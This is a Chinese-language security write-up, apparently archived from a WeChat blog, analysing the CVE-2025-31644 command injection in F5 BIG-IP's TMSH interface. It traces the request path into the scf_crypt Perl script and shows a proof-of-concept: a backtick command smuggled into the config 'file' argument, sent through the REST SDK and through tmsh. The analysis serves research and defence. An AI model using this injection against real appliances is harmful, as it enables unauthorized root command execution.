#  CVE-2025-31644 F5 BIG-IP iControl TMSH 接口命令注入漏洞深入分析   

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：F5 BIG-IP iControl/TMSH
- 本文讨论：CVE-2025-31644
- 版本、权限与配置前提：示例用管理凭据/root tmsh，具体角色及固件未列；file→scf_crypt命令注入
- 资料类型：深度原理分析；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- Python/Apache/CLI代码丢换行，示例不可直接运行
- 没有受影响/修复版本及最低权限；引用认证绕过不等于主漏洞未认证
- 完整调用栈与纠正后的请求仅图片

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 最低权限、实际请求/栈与固件待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

原创 KCyber  自在安全   2025-06-02 00:01  
  
   
  
## 漏洞概述  
  
F5 BigIP iControl  
 服务提供了一套 TMSH  
 的 REST API  
 接口，近期 TMSH  
 接口先后发布多个命令注入漏洞：  
- • CVE-2025-20029  
 ： https://my.f5.com/manage/s/article/K000148587  
  
- • CVE-2025-31644  
 ： https://my.f5.com/manage/s/article/K000148591  
  
此外，  
在  
 BigIP  
 历史上曝出的 CVE-2021-22986  
 、 CVE-2022-1388  
 等多个认证绕过漏洞中，均尝试结合 /mgmt/tm/util/bash  
 实现来实现命令执行。下面结合 CVE-2025-31644  
 命令注入漏洞，分析一下 TMSH  
 接口实现机制和漏洞触发原理。  
## mgmt 请求流程分析  
  
BigIP  
 系统的 443  
 端口对应 Apache httpd  
 服务，通过配置可将用户请求转发到后端的多个 Java  
 进程，比如 /mgmt/  
 请求将转发到 8100  
 端口的 /mgmt  
 ：  
```
ProxyPass /vmchannel/ http://localhost:8585/vmchannel/ retry=0ProxyPass /mgmt/ http://localhost:8100/mgmt/ retry=0ProxyPassReverse /vmchannel/ http://localhost:8585/vmchannel/ProxyPassReverse /mgmt/ http://localhost:8100/mgmt/
```  
  
  
8100  
 端口对应的 Java  
 进程如下：  
```
/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.212.b04-0.el6_10.x86_64/bin/java -Djava.util.logging.manager=com.f5.rest.common.RestLogManager -Djava.util.logging.config.file=/etc/restjavad.log.conf -Dlog4j.defaultInitOverride=true -Dorg.quartz.properties=/etc/quartz.properties -Xss384k -XX:+PrintFlagsFinal -Dsun.jnu.encoding=UTF-8 -Dfile.encoding=UTF-8 -XX:+UseConcMarkSweepGC -XX:+CMSParallelRemarkEnabled -XX:+UseCMSInitiatingOccupancyOnly -XX:CMSInitiatingOccupancyFraction=60 -XX:+ScavengeBeforeFullGC -XX:+CMSScavengeBeforeRemark -XX:ParallelGCThreads=8 -XX:ConcGCThreads=3 -XX:-UseCompressedOops -XX:+PrintGC -Xloggc:/var/log/restjavad-gc.log -XX:+UseGCLogFileRotation -XX:NumberOfGCLogFiles=2 -XX:GCLogFileSize=1M -XX:+PrintGCDateStamps -XX:+PrintGCTimeStamps -XX:MaxPermSize=512m -Xms96m -Xmx384m -XX:-UseLargePages -classpath :/usr/share/java/rest/f5.rest.adc.bigip.jar:/usr/share/java/rest/f5.rest.adc.shared.jar:/usr/share/java/rest/f5.rest.asm.jar:/usr/share/java/rest/f5.rest.icr.jar:/usr/share/java/rest/f5.rest.jar:/usr/share/java/rest/f5.rest.live-update.jar:/usr/share/java/rest/f5.rest.nsyncd.jar:/usr/share/java/rest/libs/axis-1.1.jar:/usr/share/java/rest/libs/bcpkix-1.59.jar:/usr/share/java/rest/libs/bcprov-1.59.jar:/usr/share/java/rest/libs/cal10n-api-0.7.4.jar:/usr/share/java/rest/libs/commonj.sdo-2.1.1.jar:/usr/share/java/rest/libs/commons-codec.jar:/usr/share/java/rest/libs/commons-discovery.jar:/usr/share/java/rest/libs/commons-exec-1.3.jar:/usr/share/java/rest/libs/commons-io-2.0.jar:/usr/share/java/rest/libs/commons-lang.jar:/usr/share/java/rest/libs/commons-lang3-3.2.1.jar:/usr/share/java/rest/libs/commons-logging.jar:/usr/share/java/rest/libs/concurrent-trees-2.5.0.jar:/usr/share/java/rest/libs/core4j-0.5.jar:/usr/share/java/rest/libs/eclipselink-2.4.2.jar:/usr/share/java/rest/libs/f5.asmconfig.jar:/usr/share/java/rest/libs/f5.rest.mcp.mcpj.jar:/usr/share/java/rest/libs/f5.rest.mcp.schema.jar:/usr/share/java/rest/libs/f5.soap.licensing.jar:/usr/share/java/rest/libs/federation.jar:/usr/share/java/rest/libs/gson-2.8.2.jar:/usr/share/java/rest/libs/guava-20.0.jar:/usr/share/java/rest/libs/httpasyncclient.jar:/usr/share/java/rest/libs/httpclient.jar:/usr/share/java/rest/libs/httpcore-nio.jar:/usr/share/java/rest/libs/httpcore.jar:/usr/share/java/rest/libs/httpmime.jar:/usr/share/java/rest/libs/icrd-src.jar:/usr/share/java/rest/libs/icrd.jar:/usr/share/java/rest/libs/jackson-annotations-2.11.0.jar:/usr/share/java/rest/libs/jackson-core-2.11.0.jar:/usr/share/java/rest/libs/jackson-databind-2.11.0.jar:/usr/share/java/rest/libs/jackson-dataformat-yaml-2.9.5.jar:/usr/share/java/rest/libs/javax.persistence-2.1.1.jar:/usr/share/java/rest/libs/javax.servlet-api.jar:/usr/share/java/rest/libs/jaxrpc-1.1.jar:/usr/share/java/rest/libs/jetty-all.jar:/usr/share/java/rest/libs/jmimemagic-0.1.5.jar:/usr/share/java/rest/libs/joda-time-2.9.9.jar:/usr/share/java/rest/libs/jsch-0.1.53.jar:/usr/share/java/rest/libs/json_simple.jar:/usr/share/java/rest/libs/jsr311-api-1.1.1.jar:/usr/share/java/rest/libs/libthrift.jar:/usr/share/java/rest/libs/log4j.jar:/usr/share/java/rest/libs/lucene-analyzers-common-4.10.4.jar:/usr/share/java/rest/libs/lucene-core-4.10.4.jar:/usr/share/java/rest/libs/lucene-facet-4.10.4.jar:/usr/share/java/rest/libs/odata4j-0.7.0-core.jar:/usr/share/java/rest/libs/quartz-2.2.1.jar:/usr/share/java/rest/libs/slf4j-api.jar:/usr/share/java/rest/libs/slf4j-ext-1.6.3.jar:/usr/share/java/rest/libs/slf4j-log4j12.jar:/usr/share/java/rest/libs/snakeyaml-1.18.jar:/usr/share/java/rest/libs/swagger-annotations-1.5.19.jar:/usr/share/java/rest/libs/swagger-core-1.5.19.jar:/usr/share/java/rest/libs/swagger-models-1.5.19.jar:/usr/share/java/rest/libs/swagger-parser-1.0.35.jar:/usr/share/java/rest/libs/validation-api-1.1.0.Final.jar:/usr/share/java/rest/libs/wsdl4j-1.1.jar:/usr/share/java/f5-avr-reporter-api.jar com.f5.rest.workers.RestWorkerHost --port=8100 --outboundConnectionTimeoutSeconds=60 --icrdConnectionTimeoutSeconds=60 --iApplxRpmConnectionTimeoutSeconds=60 --restnodedRestartAwaitTimeoutInSeconds=1200 --isStipModeEnabled=false --workerJarDirectory=/usr/share/java/rest --configIndexDirectory=/var/config/rest/index --storageDirectory=/var/config/rest/storage --storageConfFile=/etc/rest.storage.BIG-IP.conf --restPropertiesFiles=/etc/rest.common.properties,/etc/rest.BIG-IP.properties --machineId=b91ee950-0563-4234-bc88-4ab0f93075d7
```  
  
启动类为 com.f5.rest.workers.RestWorkerHost  
 。通过进程分析，找到服务程序位于 /etc/bigstart/scripts/restjavad  
 。  
  
TMSH  
 接口（参考   
REST API 端点 — F5 Python SDK 3.0.20 文档 (f5-sdk.readthedocs.io)  
 ）定义的 URL  
 以 /mgmt/tm/  
 开头，比如 /mgmt/tm/util/bash  
 ：  
  
  
  
  
在 WellKnownPorts  
中列举了合法的URL  
集合。iControl  
中自定义RestWorker  
类型对应API  
请求处理，ForwarderWorker  
的onStartCompleted  
注册/mgmt  
请求的处理类为ForwarderPassThroughWorker  
 ：  
  
  
  
  
ForwarderPassThroughWorker#onForward  
 函数中，首先判断请求 url  
 是否位于 mapping  
 集合中，完成一系列条件判断后，将利用 cloneAndForwardRequest  
 进行请求转发。调用栈如下：  
  
  
  
  
最终请求去掉了 mgmt  
 ，然后再次转发至 8100  
 端口：  
  
  
  
  
此时对应的 RestWorker  
 类型变为 PublicWorker  
 ，内部将调用 ProcessManager#spawnChildUnderCondition  
 启动新进程进行处理。这里启动的进程为 ChildWrapper#createChildBuilder  
 中创建的 icrd_child  
 ：  
  
  
  
  
完整调用栈如下：  
  
  
  
  
  
  
## 命令注入漏洞  
  
漏洞触发点位于接口 /mgmt/tm/sys/config  
 ，参考 https://f5-sdk.readthedocs.io/en/latest/userguide/commands.html ，构造请求如下：  
```
from f5.bigip import ManagementRoot  mgmt = ManagementRoot('ip', 'user', 'password')  options = {}  options['file'] = '111111111111111'  proxies={      }  requests_params={      'proxies':proxies  }  mgmt.tm.sys.config.exec_cmd('save', options=[options],requests_params=requests_params)
```  
  
需要根据响应包提示的错误修正请求包：  
  
  
  
  
为了快速分析，借助 pspy  
 进行进程监控，发现 icrd_child  
 将会启动 scf_crypt  
 这个 perl  
 脚本，并且文件名参数 file  
 直接传入了脚本：  
  
  
  
  
上述实现过程位于 libtmsh.so  
 中的 ConfigFileCmd::execute_update  
 函数，内部将利用 do_cryption  
 进行加密处理，进而调用第三方脚本 scf_crypt  
 完成操作：  
  
  
  
  
查看 scf_crypt  
 脚本，传入的 filename  
 参数将直接拼接到 cmd  
 中，然后通过反引号执行系统命令，存在命令注入漏洞：  
```
...my $action_type = $ARGV[0];my $filename = $ARGV[1];my $passphrase;my $output_file;my $cmd;my $count;...if  ($action_type eq "encrypt") {    my $tempFile=File::Temp->new();    my $temp=$tempFile->filename;    if ($count == 2) {    $passphrase =~ s/`/\\`/g;        open(FH,'>',$temp );        print FH $passphrase;        close(FH);        chmod 600, $temp;        $cmd = "gpg --homedir /root/.gnupg --passphrase-file $temp --batch -a --symmetric --cipher-algo AES  $filename";    }    else {        open(FH,'>',$temp );        print FH $passphrase;        close(FH);        chmod 600, $temp;        $cmd = "gpg --homedir /root/.gnupg --passphrase-file $temp --batch -a --symmetric --cipher-algo AES  $filename";    }    `$cmd &> /dev/null`;...
```  
  
可以利用反引号实现命令注入：  
  
  
  
  
与 CVE-2025-20029  
 类似，通过 tmsh cli  
 也可以触发漏洞：  
```
[root@localhost:Active:Standalone] tmp # tmshroot@(localhost)(cfg-sync Standalone)(Active)(/Common)(tmos)# save sys config file aaa`id>&2` passphrase 123
```  
  
  
  
  
  
   
  
由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用本人负责，公众号及文章作者不为此承担任何责任。  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
